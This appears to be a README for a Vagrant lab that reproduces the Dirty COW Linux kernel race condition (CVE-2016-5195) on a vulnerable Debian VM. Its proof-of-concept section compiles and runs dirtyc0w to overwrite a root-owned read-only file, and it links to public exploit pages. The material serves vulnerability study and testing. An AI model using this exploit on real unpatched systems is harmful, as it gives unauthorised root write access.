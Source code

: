 # CVE-2016-5195_DirtyCow 

## Vulnerability information

 * Description

```
	Race condition in mm/gup.c in the Linux kernel 2.x through 4.x before 4.8.3 allows local users to gain privileges by leveraging incorrect handling of a copy-on-write (COW) feature to write to a read-only memory mapping, as exploited in the wild in October 2016, aka "Dirty COW."
```

## vagrant up

```
$ vagrant up
Bringing machine 'vve.test' up with 'virtualbox' provider...
==> vve.test: Importing base box 'debian/wheezy64'...
==> vve.test: Matching MAC address for NAT networking...
==> vve.test: Checking if box 'debian/wheezy64' is up to date...
==> vve.test: Setting the name of the VM: CVE-2016-5195_DirtyCow_vvetest_1518397500434_97609
==> vve.test: Fixed port collision for 22 => 2222. Now on port 2200.
==> vve.test: Clearing any previously set network interfaces...
(snip)
    vve.test: Guest Additions Version: 4.3.18
    vve.test: VirtualBox Version: 5.2
==> vve.test: Configuring and enabling network interfaces...
```

## vagrant ssh

```
$ vagrant ssh
Linux debian-780-wheezy 3.2.0-4-amd64 #1 SMP Debian 3.2.65-1 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 24 08:15:24 2015 from 10.0.2.2
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
```

# POC

## dirtyc0w 

```
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -pthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
```

# Reference 

  * https://dirtycow.ninja/
  * https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
  * https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
  * https://security-tracker.debian.org/tracker/CVE-2016-5195


